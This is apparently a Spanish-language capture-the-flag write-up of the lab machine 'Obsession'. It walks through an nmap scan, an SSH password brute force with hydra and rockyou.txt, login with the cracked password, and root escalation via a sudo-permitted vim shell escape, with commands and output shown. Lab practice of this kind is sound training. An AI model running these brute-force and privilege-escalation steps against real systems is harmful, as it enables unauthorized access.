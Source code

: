 # Explotación de la máquina Obsession

## Información general
- **Nombre de la máquina**: Obsession
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: FTP (Puerto 21), SSH (Puerto 22), HTTP (Puerto 80)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 13:22 -05
Initiating ARP Ping Scan at 13:22
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:22, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:22
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:22, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-06 13:22:30 -05 for 1s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Los puertos 21, 22 y 80 estan abierto asi que procedemos a revisar el codigo fuente de la web.
Encontramos que tiene una linea de comentarios la cual nos indica lo siguiente 

```bash
<! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
```
Con la informacion que la misma web nos indica y con un poco de logica el usuario deberia de ser ```russoski```

Asi que procedo a hacer un ataque de fuerza bruta con hydra

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-06 13:28:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-06 13:28:49```

Rapidamente nos encuentra un password en este caso ```iloveme```

Procedemos a conectarnos mediante el servicio ssh:

```bash
sudo ssh russoski@172.17.0.2                                          
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@b47b308f2dfe:~$ whoami
russoski
```

Y wala! estamos conectados como russoski. 
El siguiente paso seria intentar escalar privilegios como root para esto usamos el comando ``` sudo -l ```


```bash
sudo -l
Matching Defaults entries for russoski on b47b308f2dfe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on b47b308f2dfe:
    (root) NOPASSWD: /usr/bin/vim

```
Nos indica que hay permisos incorrectos y a la vez nos muestra que podriamos escalar privilegios con vim como no recuerdo como usamos searchbins: 

```bash
sudo vim -c ':!/bin/bash'

root@b47b308f2dfe:/home/russoski# whoami
root

```
Ya somos root!!
